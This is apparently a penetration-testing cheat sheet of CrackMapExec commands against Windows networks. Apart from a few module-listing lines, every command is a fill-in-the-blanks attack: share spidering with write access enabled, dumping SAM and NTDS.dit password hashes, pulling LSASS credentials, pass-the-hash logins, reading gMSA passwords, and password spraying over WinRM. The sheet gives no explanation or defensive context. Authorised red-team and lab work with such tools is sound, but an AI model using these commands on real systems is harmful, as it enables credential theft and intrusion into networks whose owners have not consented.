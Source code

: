 # CrackMapExec

`crackmapexec ldap -L`

`crackmapexec mysql -L`

`crackmapexec smb -L`

`crackmapexec ssh -L`

`crackmapexec winrm -L`

`crackmapexec smb <RHOST> -u '' -p '' --shares -M spider_plus -o READ_ONLY=false`  
`crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --sam`  
`crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" -M lsassy`  
`crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --ntds`  
`crackmapexec smb <RHOST> -u "<USERNAME>" -H "<NTLMHASH>" --ntds`  
`crackmapexec smb <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --ntds --user <USERNAME>`  
`crackmapexec smb <RHOST> -u "<USERNAME>" -H "<NTLMHASH>" --ntds`  

`crackmapexec ldap <RHOST> -u "<USERNAME>" -p "<PASSWORD>" --gmsa -k`

`crackmapexec winrm -u usernames.txt -p '<PASSWORD>' -d <DOMAIN> <RHOST>`

